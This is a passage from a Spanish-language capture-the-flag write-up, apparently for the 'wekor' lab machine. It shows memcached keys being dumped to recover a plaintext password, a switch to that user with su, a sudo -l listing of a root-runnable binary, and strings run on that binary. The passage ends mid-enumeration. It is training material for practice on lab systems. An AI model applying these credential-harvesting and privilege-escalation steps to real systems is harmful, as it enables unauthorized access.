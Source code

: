 ```bash
ITEM email [14 b; 1680736314 s]
ITEM salary [8 b; 1680736314 s]
ITEM password [15 b; 1680736314 s]
ITEM username [4 b; 1680736314 s]
END
```
Tenemos items muy interesante como username y password, veamos su valores
```bash
get username
VALUE username 0 4
Orka
END
get password
VALUE password 0 15
OrkAiSC00L24/7$
END
```
Obtenemos la contraseña del usuario Orka, migremos a este usuario usando esta credencial

```bash
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ su Orka
Password: 
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$ whoami
Orka
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$
```
## Escalada de privelegios

si miramos los privilegios que tenemos a nivel de sudoers podemos ejecutar un binario como root
```bash
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$ sudo -l
[sudo] password for Orka: 
Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$ 
```
Si ejecutamos el binario nos pide una contraseña

```bash
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$ /home/Orka/Desktop/bitcoin
Enter the password : test
Access Denied... 
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$
```
Si miramos las cadenas imprimibles del binario vemos dos cosas interesante, vemos la contraseña en texto claro y vemos que el binario esta ejecutando un script de python.

```bash
Orka@osboxes:/var/www/html/site.wekor.thm/wordpress$ strings /home/Orka/Desktop/bitcoin |head -n40
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
gets
sprintf
__isoc99_scanf
puts
__stack_chk_fail
__ctype_b_loc
system
sleep
strcmp
```